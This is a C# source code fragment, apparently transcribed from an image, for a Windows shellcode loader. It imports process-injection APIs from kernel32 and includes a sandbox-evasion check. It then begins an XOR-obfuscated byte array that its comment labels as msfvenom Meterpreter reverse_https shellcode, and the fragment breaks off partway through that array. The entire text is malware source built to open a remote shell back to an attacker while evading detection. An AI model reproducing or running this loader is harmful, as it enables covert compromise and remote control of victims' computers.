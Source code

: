 ```csharp
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [System.Runtime.InteropServices.DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        static bool IsElevated
        {
            get
            {
                return WindowsIdentity.GetCurrent().Owner.IsWellKnown(WellKnownSidType.BuiltinAdministratorsSid);
            }
        }

        public static void Main(string[] args)
        {
            // Sandbox evasion
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            // Xor-encoded payload, key 0xfa
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST= LPORT= EXITFUNC=thread -f csharp
            byte[] buf = new byte[668] {
            0x06, 0xb2, 0x79, 0x1e, 0x0a, 0x12, 0x36, 0xfa, 0xfa, 0xfa, 0xbb, 0xab, 0xbb, 0xaa, 0xa8,
            0xab, 0xac, 0xb2, 0xcb, 0x28, 0x9f, 0xb2, 0x71, 0xa8, 0x9a, 0xb2, 0x71, 0xa8, 0xe2, 0xb2,
            0x71, 0xa8, 0xda, 0xb2, 0x71, 0x88, 0xaa, 0xb7, 0xcb, 0x33, 0xb2, 0xf5, 0x4d, 0xb0, 0xb0,
            0xb2, 0xcb, 0x3a, 0x56, 0xc6, 0x9b, 0x86, 0xf8, 0xd6, 0xda, 0xbb, 0x3b, 0x33, 0xf7, 0xbb,
            0xfb, 0x3b, 0x18, 0x17, 0xa8, 0xb2, 0x71, 0xa8, 0xda, 0xbb, 0xab, 0x71, 0xb8, 0xc6, 0xb2,
            0xfb, 0x2a, 0x9c, 0x7b, 0x82, 0xe2, 0xf1, 0xf8, 0xf5, 0x7f, 0x88, 0xfa, 0xfa, 0xfa, 0x71,
            0x7a, 0x72, 0xfa, 0xfa, 0xfa, 0xb2, 0x7f, 0x3a, 0x8e, 0x9d, 0xb2, 0xfb, 0x2a, 0xaa, 0xbe,
            0x71, 0xba, 0xda, 0xb3, 0xfb, 0x2a, 0x71, 0xb2, 0xe2, 0x19, 0xac, 0xb2, 0x05, 0x33, 0xbb,
            0x71, 0xce, 0x72, 0xb7, 0xcb, 0x33, 0xb2, 0xfb, 0x2c, 0xb2, 0xcb, 0x3a, 0x56, 0xbb, 0x3b,
            0x33, 0xf7, 0xbb, 0xfb, 0x3b, 0xc2, 0x1a, 0x8f, 0x0b, 0xb6, 0xf9, 0xb6, 0xde, 0xf2, 0xbf,
            0xc3, 0x2b, 0x8f, 0x22, 0xa2, 0xbe, 0x71, 0xba, 0xde, 0xb3, 0xfb, 0x2a, 0x9c, 0xbb, 0x71,
            0xf6, 0xb2, 0xbe, 0x71, 0xba, 0xe6, 0xb3, 0xfb, 0x2a, 0xbb, 0x71, 0xfe, 0x72, 0xbb, 0xa2,
            0xb2, 0xfb, 0x2a, 0xbb, 0xa2, 0xa4, 0xa3, 0xa0, 0xbb, 0xa2, 0xbb, 0xa3, 0xbb, 0xa0, 0xb2,
            0x79, 0x16, 0xda, 0xbb, 0xa8, 0x05, 0x1a, 0xa2, 0xbb, 0xa3, 0xa0, 0xb2, 0x71, 0xe8, 0x13,
```